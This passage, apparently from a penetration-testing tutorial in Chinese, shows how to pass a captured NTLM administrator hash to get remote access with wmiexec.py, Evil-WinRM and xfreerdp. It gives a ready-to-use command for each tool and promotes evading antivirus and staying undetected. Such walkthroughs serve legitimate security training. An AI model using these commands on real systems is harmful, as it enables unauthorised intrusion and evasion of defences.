 既然我们已经将捕获的 Net-NTLM 登录转换为本地 Admin NTLM 散列，我们可以尝试传递该散列来获得对机器的内部访问。我使用了三种主要的方法来取得显著的效果:

1.  [Wmiexec.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py)

Wmiexec 是另一个 Impacket 远程命令，它使用 WMIC 发送命令，可以绕过捕获 smbexec 的 AV。

```
wmiexec.py -hashes ‘00000000000000000000000000000000:2b576acbe6bcfda7294d6bd18041b8fe’ administrator@192.168.1.161
```

> N 注:你必须用 0 替换 NTLM 散列的前部，这样才能工作。

![](img/ebcf6d70cbccf33b6ff57a8309db48e0.png)

wmicexec.py 绕过 AV

2.[邪恶-WinRm](https://github.com/Hackplayers/evil-winrm)

如果在端点上启用了 WINRM，那么令人敬畏的工具 Evil-WinRm 支持使用哈希。这是一种非常隐蔽的攻击，通常不会被任何安全解决方案捕获。

```
evil-winrm -u Administrator -H ‘2b576acbe6bcfda7294d6bd18041b8fe’ -i 192.168.1.161
```

![](img/0b659c085ea2699fc945c1de989a8ed6.png)

Evil-WinRM PTH

3. [XfreeRDP](https://linux.die.net/man/1/xfreerdp)

对于更多以 GUI 为中心的攻击，可以使用 Xfreerdp 获得对终端的 rdp 访问权限。

```
xfreerdp /u:Administrator /pth:2b576acbe6bcfda7294d6bd18041b8fe /v:192.168.1.161
```
